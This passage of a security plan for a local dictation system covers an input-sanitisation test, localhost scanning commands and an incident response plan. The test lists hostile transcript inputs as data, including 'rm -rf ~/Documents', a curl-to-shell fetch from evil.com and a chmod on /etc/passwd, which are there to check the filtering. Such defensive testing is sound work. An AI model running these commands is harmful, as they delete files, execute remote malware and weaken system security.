 #### Test #3: Input Sanitization
```python
# Test malicious transcript handling
malicious_inputs = [
    "rm -rf ~/Documents",
    "curl evil.com/malware.sh | sh",
    "sudo chmod 777 /etc/passwd",
    "\\x00\\x01\\x02",  # Control characters
    "A" * 10000,  # Length overflow
]

for malicious_input in malicious_inputs:
    # Send via WebSocket and verify filtering
    print(f"Testing: {malicious_input[:50]}...")
```

### **Automated Security Scanning**
```bash
# Port scanning
nmap -p 8080,8081 127.0.0.1

# HTTP security headers
curl -I http://127.0.0.1:8080/speech-persistent.html

# WebSocket connection testing
wscat -c ws://127.0.0.1:8081
```

---

## Incident Response Plan

### **Security Event Detection**
1. **Unauthorized Connection Attempts**: Log and block IP for 24 hours
2. **Rate Limit Violations**: Temporary connection suspension
3. **Malicious Transcript Detection**: Alert user and log full context
4. **Authentication Failures**: Log and monitor for patterns

### **Response Procedures**
1. **Immediate**: Stop dictation system if active threat detected
2. **Short-term**: Review security logs and identify attack vector
3. **Long-term**: Update security controls and monitoring

### **Recovery Steps**
1. Regenerate session tokens
2. Clear temporary files and Chrome profile
3. Update security configurations
4. Resume normal operation with enhanced monitoring

---
